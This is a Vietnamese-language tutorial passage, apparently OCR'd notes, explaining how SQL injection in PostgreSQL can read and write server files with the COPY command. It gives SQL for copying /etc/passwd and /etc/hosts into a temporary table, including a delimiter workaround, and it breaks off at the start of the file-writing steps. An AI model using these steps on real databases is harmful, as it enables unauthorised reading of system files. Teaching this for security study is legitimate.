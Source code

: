 

# 9. Đọc và Ghi Tệp với SQL Injection trong PostgreSQL

Trong phần này, chúng ta sẽ tìm hiểu hai phương pháp để đọc và ghi tệp từ và vào máy chủ thông qua khai thác SQL injection, đặc biệt là trong cơ sở dữ liệu **PostgreSQL**.

---

#### **Phương pháp 1: Sử dụng lệnh `COPY`**

Lệnh `COPY` trong PostgreSQL được thiết kế để nhập/xuất dữ liệu giữa bảng và tệp. Tuy nhiên, nó có thể bị lợi dụng để đọc và ghi tệp từ hệ thống tệp của máy chủ.

##### **Đọc tệp:**

Để đọc một tệp từ hệ thống tệp, ta có thể sử dụng cú pháp `COPY FROM` để sao chép dữ liệu từ tệp vào một bảng trong cơ sở dữ liệu. Ví dụ:

1. **Tạo bảng tạm**:
   ```sql
   CREATE TABLE tmp (t TEXT);
   ```

2. **Sao chép dữ liệu từ tệp** (ví dụ đọc `/etc/passwd`):
   ```sql
   COPY tmp FROM '/etc/passwd';
   ```

3. **Truy vấn dữ liệu**:
   ```sql
   SELECT * FROM tmp LIMIT 5;
   ```

4. **Xóa bảng tạm sau khi truy vấn**:
   ```sql
   DROP TABLE tmp;
   ```

Kết quả sẽ là nội dung của tệp `/etc/passwd` được đọc và hiển thị trong bảng tạm.

##### **Lỗi phân tách dữ liệu:**

Khi sử dụng `COPY`, dữ liệu trong tệp phải được phân tách bởi dấu phân cách (ví dụ: tab hoặc dấu phẩy). Nếu tệp không được định dạng phù hợp, bạn có thể gặp lỗi như sau:
```sql
ERROR: extra data after last expected column
```

Để khắc phục, ta có thể thay đổi dấu phân tách bằng cách sử dụng ký tự không phổ biến:
```sql
COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
```

##### **Ghi tệp:**

Việc ghi tệp cũng sử dụng lệnh `COPY`, nhưng thay vì `COPY FROM`, ta sử dụng `COPY TO` để sao chép dữ liệu từ bảng vào tệp:
1. **Tạo bảng tạm**:
   ```sql
   CREATE TABLE tmp (t TEXT);
   ```
